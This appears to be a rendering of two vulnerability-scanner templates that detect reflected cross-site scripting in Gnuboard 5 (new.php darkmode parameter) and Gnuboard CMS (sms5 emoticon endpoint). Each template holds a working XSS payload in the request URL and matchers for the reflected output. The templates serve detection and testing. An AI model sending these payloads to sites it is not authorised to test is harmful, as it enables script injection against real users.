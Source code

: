# Gnuboard 5 - Cross-Site Scripting
## Description
- Gnuboard 5 contains a cross-site scripting vulnerability via the clean_xss_tags() function called in new.php.

- severity - medium
- tags - xss,gnuboard,gnuboard5,huntr
## Requests
- Method - GET
### URL
- {{BaseURL}}/bbs/new.php?darkmode=%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E
### Matchers

**Type - word**
- words
    1. header\">\<script>alert(document.domain)\</script>.css?

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Gnuboard CMS - Cross-Site Scripting
## Description
- Gnuboard CMS contains a cross-site scripting vulnerability which allows remote attackers to inject arbitrary JavaScript into the responses returned by the server.
- severity - medium
- tags - xss,gnuboard
## Requests
- Method - GET
### URL
- {{BaseURL}}/plugin/sms5/ajax.sms_emoticon.php?arr_ajax_msg=gnuboard\<svg+onload=alert(document.domain)>
### Matchers

**Type - word**
- part - body
- words
    1. "0nuboard\<svg onload=alert(document.domain)>"
